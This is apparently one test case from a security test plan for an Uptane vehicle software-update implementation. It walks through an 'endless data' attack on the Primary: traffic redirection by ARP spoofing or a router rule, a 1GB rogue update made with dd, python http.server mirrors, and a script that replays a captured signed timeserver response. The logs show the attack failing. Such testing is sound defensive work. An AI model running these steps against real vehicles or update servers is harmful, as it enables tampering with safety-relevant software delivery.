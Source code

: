 # Uptane Implementation Test Plan
# 10. Endless Data Update
**Test Case** : Attempt to send an endless data update to the Uptane Primary.   
**Test Steps** :  
1. Setup Test Computer :   
 Setup test computer to be able to communicate with both the Primary and the Uptane servers. Ensure this test computer has Python 3.5 or later installed.  

2.Monitor a Valid Update :  
Follow the Uptane tutorial on how to perform an update while monitoring the communication via Wireshark. Copy the responses sent from the servers to the Primary when the Primary performs an update_cycle().
Afterward, remove the connectivity of the servers and route traffic on the router destined for the servers to the attacking machine (e.g., add the rule manually on the router, ARP spoofing, etc.).
Ensure the attacking machine is listening on the same port as the repositories (i.e., port 30301 for the image repository, port 30401 for the director repository, and port 30601 for the timeserver) and is capable of handling the previously noted XMLRPC requests (i.e., get_signed_time, GET /metadata/timestamp.json, GET /111/metadata/timestamp.json, GET /targets/Secondary_update.img, submit_vehicle_manifest).    
3. Craft Endless Data Attack   
Create a file structure on the attacking machine from the attacking directory (e.g., ~/uptane/endless_data/) that mimics the valid Uptane server (i.e., ~/uptane/endless_data/metadata/, ~/uptane/endless_data/targets/, etc.). Create a large update (e.g., 1GB) into the expected update filename (i.e., update.txt) by running the following command:   
- dd if=/dev/zero bs=1024 count=1000000 > ~/uptane/endless_data/update.txt   

Afterward, navigate to the attacking directory (i.e., ~/uptane/endless_data/) and append the expected update data to the newly created 1GB update via the following command.
- echo ‘expected data’ | cat – update.txt >> temp.txt && mv temp.txt update.txt   

Lastly, copy the rogue update into the two expected directories via the following commands:  
cp update.txt targets/
cp update.txt [VIN]/targets/  

4. Run Endless Data Attack   
Run the attack by running the following commands in separate terminal windows:
-python3 endless_data_attack.py
-python3 -m http.server 30401
-python3 -m http.server 30301   

Afterward, run the following command on the Primary:  
- dp.update_cycle  

5. Monitor Response   
Monitor the response from the Primary. Verify the Primary output looks similar to the following.   
---
[...TRUNCATED...]
[Primary.py:Primary_update_cycle():563]
Metadata for the following Targets has been validated by both the Director and
the Image repository. They will now be downloaded:['/Secondary_update.txt']
Downloading: 'http://192.168.1.100:30301/targets/Secondary_update.txt'
Downloaded 18 bytes out of the expected 18 bytes.
Not decompressing http://192.168.1.100:30301/targets/Secondary_update.txt
Update failed from http://192.168.1.100:30301/targets/Secondary_update.txt.
BadHashError
Failed to update /Secondary_update.txt from all mirrors:
{'http://192.168.1.100:30301/targets/Secondary_update.txt':
BadHashError('651bdb7fa636052949a6220202c5faa7b9258a5dcb31ad01632b49c338c28b27'
, 'e116d4ef5a2f2dbba9a61970a25cab3e6695418e3dbfa71071e4d07aebb1f083')}
Downloading: 'http://192.168.1.100:30401/111/targets/Secondary_update.txt'
Downloaded 18 bytes out of the expected 18 bytes.
Not decompressing http://192.168.1.100:30401/111/targets/Secondary_update.txt
The file's 'sha256' hash is correct:
'651bdb7fa636052949a6220202c5faa7b9258a5dcb31ad01632b49c338c28b27'
The file's 'sha512' hash is correct:
'994d865396d913f8754af181aeba16996a44a07de595dea2c3a7f96ce0a3910aa8b74905edbb30
94954aabffe20f14dd2b3f0ea82767960c9fb030886fbb56ef'
[2018.02.14 15:29:18UTC] [Primary] INFO [Primary.py:Primary_update_cycle():651]
Successfully downloaded trustworthy 'Secondary_update.txt' image.
Submitting the Primary's manifest to the Director.
[...TRUNCATED...]   
---

Examine the tuf.log file to determine if there is any output related to our malicious update.  
- ---
[...TRUNCATED...]
18-02-14 15:29:18,899 UTC] [tuf.download] [DEBUG]
[_check_content_length:547@download.py]
The server reported a length of 1024000019 bytes.
[...TRUNCATED...]
---

As seen in the output above, although the Primary recognizes the update from the server is 1GB, the Primary limits the data it downloads to the expected data length (previously determined from signed metadata from director and image repository). Therefore, to successfully launch an endless data attack, both repository keys would need to be compromised sign the extremely large update. Therefore, this test passed.  
**Test Scripts** : endless_data_attack.py   
---
import sys
from xmlrpc.server import SimpleXMLRPCServer
from xmlrpc.server import SimpleXMLRPCRequestHandler
class RequestHandler(SimpleXMLRPCRequestHandler):
  rpc_paths = ('/RPC2',)
timeserver = SimpleXMLRPCServer(("192.168.1.100", 30601),
requestHandler=RequestHandler, allow_none=True)
#Define a function and register the response
def get_signed_time(val1=False,val2=False,val3=False):
  response = {'signed': {'time': '2018-02-14T13:48:02Z', 'nonces':
[610636176,1077783583]}, 'signatures':
[{'keyid':'79c796d7e87389d1ebad04edce49faef611d139ee41ea9fb1931732afbfaac2e',
'sig':'2f1169c382bb67f811d33fa4bff7529606724b5639bb9e61484dde5b4a078a44a9c4a409
80bf83da3f2aaccf05b213fd1df3fc10c7243b13dbba30bfe0f56e06',
'method':'ed25519'}]}
  return response
timeserver.register_function(get_signed_time,
      'get_signed_time')
try:
  timeserver.serve_forever()
except KeyboardInterrupt:
  print("\nKeyboard interrupt.")
  sys.exit(0)
---



